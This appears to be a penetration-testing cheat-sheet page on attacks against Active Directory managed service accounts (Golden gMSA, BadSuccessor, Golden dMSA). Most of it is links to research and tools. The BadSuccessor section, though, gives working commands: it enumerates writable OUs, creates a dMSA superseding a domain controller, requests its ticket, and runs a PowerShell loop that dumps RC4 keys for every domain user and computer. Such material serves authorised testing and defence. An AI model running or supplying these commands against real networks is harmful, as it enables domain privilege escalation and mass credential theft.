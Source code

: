 ```yaml
---
description: Group Managed Service Accounts / Delegated Managed Service Accounts
---
```


# gMSA / dMSA




## Golden gMSA

- [https://www.semperis.com/blog/golden-gmsa-attack/](https://www.semperis.com/blog/golden-gmsa-attack/)
- [https://github.com/Semperis/GoldenGMSA](https://github.com/Semperis/GoldenGMSA)




## BadSuccessor

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
- [https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/](https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/)
- [https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/](https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/)
- [https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/](https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/)

Enumerate OUs where we can create child objects (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Get-DomainObjectAcl -LDAPFilter "(objectClass=organizationalUnit)" -Where "ActiveDirectoryRights contains CreateChild"
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] get writable --otype OU [--right CHILD]
```

Create a dMSA account with a superseded account in the `msDS-ManagedAccountPrecededByLink` property (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Add-DomainDMSA -Identity mydmsa -PrincipalsAllowedToRetrieveManagedPassword jdoe -SupersededAccount DC01 [-BaseDN "CN=Managed Service Accounts,DC=megacorp,DC=local"]
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] add badSuccessor mydmsa -t "CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local" [--ou "CN=Managed Service Accounts,DC=megacorp,DC=local"]
```

Ask for a TGT containing the superseded account PAC (using [Rubeus](https://github.com/GhostPack/Rubeus) or [minikerberos-getDmsa](https://github.com/skelsec/minikerberos/blob/main/minikerberos/examples/getDmsa.py)):

```
Cmd > Rubeus.exe asktgs /targetuser:mydmsa$ /service:krbtgt/megacorp.local /dmsa /opsec /nowrap /ticket:<JDOE_TGT>
$ python3 minikerberos/examples/getDmsa.py 'kerberos+ccache://megacorp.local\jdoe:tgt.ccache@192.168.1.11' 'mydmsa$@megacorp.local' --ccache /tmp/mydmsa.ccache
```

Request TGT and grep for "previous keys" (from `KERB-DMSA-KEY-PACKAGE` structure), which is actually current RC4 of the superseded account, for all domain users and computers in a loop (requires [this Rubeus](https://github.com/GhostPack/Rubeus/compare/master...YuG0rd:Rubeus:master)):

```powershell
$domain = Get-ADDomain
$dmsa = "CN=mydmsa,CN=Managed Service Accounts,$($domain.DistinguishedName)"
$allDNs = @(Get-ADUser -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName) `
        + @(Get-ADComputer -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName)
$allDNs | % {
    Set-ADObject -Identity $dmsa -Replace @{ "msDS-ManagedAccountPrecededByLink" = $_.DN }
    $res = Invoke-Rubeus asktgs /targetuser:mydmsa$ /service:"krbtgt/$($domain.DNSRoot)" /opsec /dmsa /nowrap /ticket:$kirbi
    $rc4 = [regex]::Match($res, 'Previous Keys for .*\$: \(rc4_hmac\) ([A-F0-9]{32})').Groups[1].Value
    "$($_.sAMAccountName):$rc4"
}
```



### Tools

- [https://github.com/akamai/BadSuccessor](https://github.com/akamai/BadSuccessor)
- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1)
- [https://github.com/fulc2um/impacket/blob/badsuccessor/examples/badsuccessor.py](https://github.com/fulc2um/impacket/blob/badsuccessor/examples/badsuccessor.py)




## Golden dMSA

- [https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [https://github.com/Semperis/GoldenDMSA](https://github.com/Semperis/GoldenDMSA)
